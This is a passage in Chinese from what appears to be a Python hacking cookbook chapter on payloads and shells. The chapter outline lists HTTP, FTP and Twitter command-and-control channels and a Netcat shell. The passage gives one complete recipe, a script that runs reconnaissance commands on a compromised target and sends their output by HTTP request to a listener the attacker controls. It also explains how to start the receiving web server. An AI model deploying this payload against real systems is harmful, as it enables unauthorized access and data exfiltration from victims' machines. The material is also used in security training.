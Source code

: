 # 第 8 章有效载荷和炮弹

在本章中，我们将介绍以下主题：

*   通过 HTTP 请求提取数据
*   创建 HTTP C2
*   创建 FTP C2
*   创建 Twitter C2
*   创建一个简单的 Netcat shell

# 导言

在本章中，我们将介绍如何在 Python 中创建反向 shell 和有效负载。一旦在 Linux 或 Mac 系统上发现上传漏洞，Python 有效负载将处于下一步的最佳位置。它们很容易制作或定制，以匹配特定的系统，具有明确的功能，最重要的是，几乎所有 Mac 和 Linux 系统默认都带有 Python2.7。

# 通过 HTTP 请求提取数据

我们将要创建的第一个脚本将使用一种非常简单的技术从目标服务器提取数据。有三个基本步骤：在目标上运行命令，通过 HTTP 请求将输出传输给攻击者，并查看结果。

## 准备好了吗

此配方需要攻击者可以访问的 web 服务器，以便接收来自目标的 HTTP 请求。幸运的是，Python 有一种非常简单的启动 web 服务器的方法：

```py
$ Python –m SimpleHTTPServer

```

这将在端口`8000`上启动 HTTP web 服务器，提供当前目录中的所有文件。它接收到的任何请求都直接打印到控制台，这使它成为获取数据的一种非常快速的方法，因此是对该脚本的一个很好的补充。

## 怎么做…

这是将在服务器上运行各种命令并通过 web 请求传输输出的脚本：

```py
import requests
import urllib
import subprocess
from subprocess import PIPE, STDOUT

commands = ['whoami','hostname','uname']
out = {}

for command in commands:
    try:
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
    except:
        pass

requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```
